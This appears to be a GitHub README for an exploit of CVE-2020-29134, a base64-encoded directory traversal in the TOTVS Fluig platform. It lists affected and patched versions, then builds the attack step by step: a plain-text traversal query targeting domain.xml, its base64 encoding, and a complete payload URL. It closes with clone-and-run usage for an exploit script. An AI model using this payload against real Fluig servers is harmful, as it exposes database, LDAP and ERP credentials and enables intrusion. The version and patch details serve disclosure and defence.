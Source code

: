 ```yaml
---
layout: post
title:  "CVE-2020–29134 Totvs Fluig Platform"
date:   2021-03-04 15:01:00
categories: CVE
---
```


![alt text](https://miro.medium.com/max/1400/1*8jAtHuBvB9ecm7Hjm5mGWQ.png)

### Totvs Fluig Platform
     
Fluig is the productivity and collaboration platform that integrates with the ERP system,
and your company’s other systems to revolutionize the way you and your team work.
 
### CVE-2020-29134
     
TOTVS Fluig Plataform allows directory traversal via parameter encoded in base64
When exploited, this vulnerability allows the reading of sensitive XML files,
which contain data to access the database and, in some cases, LDAP connections and ERP integrations.
     
#### Versions affecteds 

<== Fluig Lake 1.7.0
<== Fluig 1.6.5
<== Fluig 1.6.4

#### Patched versions

Fluig Lake 1.7.0-210303 (Patched)
Fluig 1.6.5-210308 (Patched)
Fluig 1.6.4-210308 (Patched)

# Building Payload

![alt text](https://raw.githubusercontent.com/lucxssouza/CVE-2020-29134/main/Payload-Parameter.png?raw=true)

#### Attack Vector

http://fluig.host.com/volume/stream/Rmx1aWc=/

#### Path traversal plain text

?t=1&vol=Default&id=1&ver=1000&file=../../../../../../../../../../../../../fluig/appserver/domain/configuration/domain.xml

#### Path traversal encoded base64
     P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=
     
#### Payload 

http://HOST.FLUIG.COM/volume/stream/Rmx1aWc=/P3Q9MSZ2b2w9RGVmYXVsdCZpZD0xJnZlcj0xMDAwJmZpbGU9Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZmx1aWcvYXBwc2VydmVyL2RvbWFpbi9jb25maWd1cmF0aW9uL2RvbWFpbi54bWw=

#### Exploit-DB reference
https://www.exploit-db.com/exploits/49622

     
##### Clone Repository

git clone https://github.com/lucxssouza/CVE-2020-29134.git
cd CVE-2020-29134
chmod +x xfluig.sh

# Usage

Ex1: ./xfluig.sh http://fluig.host.com REQUESTS_WFUZZ (number of requests generated by wfuzz)

Ex2: ./xfluig.sh http://fluig.host.com:PORT

